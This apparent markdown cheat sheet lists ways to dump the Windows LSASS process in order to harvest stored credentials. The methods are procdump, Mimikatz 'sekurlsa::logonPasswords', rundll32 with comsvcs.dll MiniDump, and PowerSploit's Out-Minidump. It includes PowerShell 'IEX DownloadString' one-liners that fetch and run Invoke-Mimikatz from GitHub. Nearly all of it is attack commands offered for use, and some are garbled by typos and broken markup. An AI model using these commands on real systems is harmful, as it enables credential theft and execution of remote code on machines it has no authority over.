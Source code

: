 # Methods to Dump LSASS
Craft a comprehensive guide detailing various methods for dumping the LSASS.<br>
I think This will be a valuable one and will make people stay updated on new techniques.
## 1. Procdump:
Procdump is a part of Microsoft Sysinternals and a command-line<br>utility programs for producing dumps of any running process<br>
We can leverage it and use it fo DUMP lsass process by the following:<br>
<code>procdump.exe -ma lsass.exe C:\path\lsass.dmp</code>

## 2. Mimikatz:
Mimikatz can both dump the LSASS process and read from an LSASS dump:<br>
<code>privilege::debug = Debugging Mode
sekurlsa::logonPasswords = Dump passwords
</code>

* To Read from an LSASS dump:<br>
<code>sekurlsa::minidump C:\path\lsass.dmp
sekurlsa::logonpasswords</code>

## 3. Rundll32
This is a native Windows utility method which can we can use:<br>
<code>rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump <LSASS_Process_ID> C:\path</code><br>
to get lsass process ID, you can you "Get-Process lsass" on powershell.

## 4. PowerSploit's Out-Minidump:
Ensure the Out-Minidump function is loaded in your PowerShell session<br>
<code>"IEX (New-Object Net.WebClient).DownloadString('https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Out-Minidump.ps1')"
Get-Process lsass | Out-Minidump -DumpFilePath C:\Path\To\Dump
</code>

##  5. Using Invoke-Mimikatz from the GitHub Repository:
Download & Import the Script:
First, you need to get the Invoke-Mimikatz.ps1 script from the GitHub repository.
If you're working directly on the machine:
<code>IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/g4uss47/InvokeMimikatz/master/Invoke-Mimikatz.ps1')</code><br>

Invoke Mimikatz to Dump LSASS:<br>
Once the module is imported, you can run Invoke-Mimikatz to dump the LSASS</br>

<code>Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonPasswords"'</code><br>
* You can also using minidump module to select where to read:<br>
code> Invoke-Mimikatz -Command '"provolege::debug" "sekurlsa::minidump C:\Path\To\Load\Lsass"'
